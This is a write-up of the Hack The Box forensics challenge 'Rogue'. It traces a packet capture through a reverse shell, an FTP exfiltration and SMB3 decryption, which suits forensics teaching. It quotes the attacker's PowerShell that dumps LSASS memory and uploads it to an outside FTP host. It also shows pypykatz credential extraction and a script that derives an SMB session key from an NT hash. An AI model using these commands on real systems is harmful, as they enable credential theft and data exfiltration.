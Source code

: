 ```yaml
---
title: "HTB • Rogue"
tags:
  - "Forensics"
  - "Medium Difficulty"
  - "Packet Capture"
  - "Blue Team"
  - "PowerShell"
  - "FTP"
  - "SMB"
  - "Cryptography"
excerpt: "Rogue is a medium-difficulty forensics challenge on Hack the Box that involves packet capture analysis, blue team operations, File Transfer Protocol (FTP), Server Message Block (SMB), and cryptography."
categories:
  - "Writeups"
  - "Hack the Box Challenges"
---
```


Rogue is a medium-difficulty forensics challenge created by [**thewildspirit**](https://app.hackthebox.com/users/70891) on [**Hack The Box**](https://app.hackthebox.com/challenges/rogue) where we are given a packet capture with possibly malicious traffic. Our goal is to find out how the adversary accessed the sensitive shared folder, and what information they stole. The adversary used the encrypted SMB3 protocol to access the share, but we were able to recover the encryption key used in the traffic and subsequently recover what information was stolen along with the flag.

> SecCorp has reached us about a recent cyber security incident. They are confident that a malicious entity has managed to access a shared folder that stores confidential files. Our threat intel informed us about an active dark web forum where disgruntled employees offer to give access to their employer's internal network for a financial reward. In this forum, one of SecCorp's employees offers to provide access to a low-privileged domain-joined user for 10K in cryptocurrency. Your task is to find out how they managed to gain access to the folder and what corporate secrets did they steal.


## Reverse Shell

We'll be using [Wireshark](https://www.wireshark.org/) to analyze `capture.pcapng`{:.filepath}.

On the first few lines of the packet capture, we can see that there is a TCP connection between **192.168.1.14:50021** and **77.74.198.52:4444**. The port number **4444** is often used by attackers in reverse shell sessions, so let's follow that TCP stream by right-clicking the first packet, and going to **Follow > TCP Stream**.

![Reverse shell session](/assets/img/post/htb-challenges-rogue/port-4444.png)
_The adversary runs PowerShell commands over a reverse shell session on port 4444_


It does seem to be a reverse shell. The attacker runs a few enumeration commands and finds out that they are a local administrator. Then they run the following statements:

```powershell
Remove-Item -Path C:\windows\temp\3858793632.pmd -Force -ErrorAction Ignore
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\windows\temp\3858793632.pmd full | out-host
Compress-Archive  C:\windows\temp\3858793632.pmd  C:\windows\temp\3858793632.zip
Remove-Item -Path C:\windows\temp\3858793632.pmd -Force -ErrorAction Ignore
$cl = New-Object System.Net.WebClient
$f = "C:\windows\temp\3858793632.zip"
$s = "ftp://ftpuser:SZC0aBomFG@windowsliveupdater.com/3858793632.zip"
$u = New-Object System.Uri($s)
$cl.UploadFile($u, $f)
Remove-Item -Path C:\windows\temp\3858793632.zip -Force -ErrorAction Ignore
```
{:.nolineno}

This would create a memory dump of the `lsass.exe`{:.filepath} process, compress it, and upload it to an FTP server at **windowsliveupdater.com** which probably resolves to an attacker-controlled address from a poisoned DNS entry.

## FTP

Since FTP is a plaintext protocol, we can recover the uploaded file `3858793632.zip`{:.filepath} with Wireshark. We'll use the filter `ftp-data`, follow the TCP stream, then export it as raw bytes.

![FTP Export](/assets/img/post/htb-challenges-rogue/ftp-export.png)
_exporting the file transferred in plain text using FTP_

> When you view a stream in Wireshark, you should save the stream to a file **only after all of the packets have loaded** so that the file is complete.
{: .prompt-warning}

The file `3858793632.zip`{:.filepath} does seem to be a zip file, so we'll go ahead and extract `3858793632.pmd`{:.filepath}.

```bash
file 3858793632.zip # Check file type
7z l 3858793632.zip # Validate archive / list files
7z x 3858793632.zip # Extract files
```
{:.nolineno}

A memory dump of the `lsass.exe`{:.filepath} process would be valuable to the adversary because it often holds sensitive information like plaintext passwords, NTLM hashes, etc. Let's follow the attacker's path and extract any credentials from the dump with [PyPyKatz](https://github.com/skelsec/pypykatz).

```bash
pypykatz lsa minidump ./3858793632.pmd --json -o dump.json
```
{:.nolineno}

Now we should have some credentials stored in the file `dump.json`{:.filepath}. Before we go any further, let's see if we can find evidence of the adversary accessing the sensitive share mentioned in the challenge description.

## SMB

Sorting the packets with the filter `smb or smb2`, we can see that a network share called **ConfidentialShare** is accessed, but we cannot view any of the accessed files within the share because the top layer is encrypted.

### Recovering the Key

We search for possible ways to decrypt the SMB3 packets and eventually run into [this wonderful post](https://medium.com/maverislabs/decrypting-smb3-traffic-with-just-a-pcap-absolutely-maybe-712ed23ff6a2) which tells us that we need the following parameters to recover the session encryption key:

* Username
* Workgroup
* Password or NT hash
* NTProofStr
* Encrypted session key

The user who accessed the share happens to be **athomson** under the workgroup **CORP**, and both **NTProofStr** and the encrypted session key can be found in the packet capture. It also turns out, we already have the NT hash for this user in `dump.json`{:.filepath}, which we recovered from the memory dump.

```bash
jq '..|select(.username=="athomson")?|.NThash' ./dump.json
```
{:.nolineno}

Now that we have all the required parameters, we'll build a program based on information from the post mentioned earlier to recover the session encryption key.

```python
import hmac
from Crypto.Cipher import ARC4
from Crypto.Hash import MD5

# SESSION 0x0000a00000000015
USERNAME = 'athomson'
WORKGROUP = 'CORP'
NTHASH = bytes.fromhex('88d84bad705f61fcdea0d771301c3a7d')
NTPROOF = bytes.fromhex('d047ccdffaeafb22f222e15e719a34d4')
ENCSESSION = bytes.fromhex('032c9ca4f6908be613b240062936e2d2')

ud = (USERNAME + WORKGROUP).upper().encode('UTF-16LE')
rknt = hmac.new(NTHASH, ud, MD5).digest()
kek = hmac.new(rknt, NTPROOF, MD5).digest()
rsk = ARC4.new(kek).decrypt(ENCSESSION)
print(rsk.hex())
```
{:file="decrypt.py"}

The program should print the key **_9ae0af5c19ba0de2ddbe70881d4263ac_**.

### Encrypted File Recovery

We'll use Wireshark's `tshark` command to decrypt the SMB3 packets and export the available files.

```bash
session="1500000000a00000" # The SMB session ID
enc_key="9ae0af5c19ba0de2ddbe70881d4263ac" # The encryption key
mkdir files # Create output directory
tshark -r ./capture.pcapng "-ouat:smb2_seskey_list:$session,$enc_key,"'"",""' --export-objects smb,files
```
{:.nolineno}

Then we can find the flag on the third page of the exported PDF document within the output directory.

![Recovered document](/assets/img/post/htb-challenges-rogue/document.png)
_The flag hiding in the recovered document_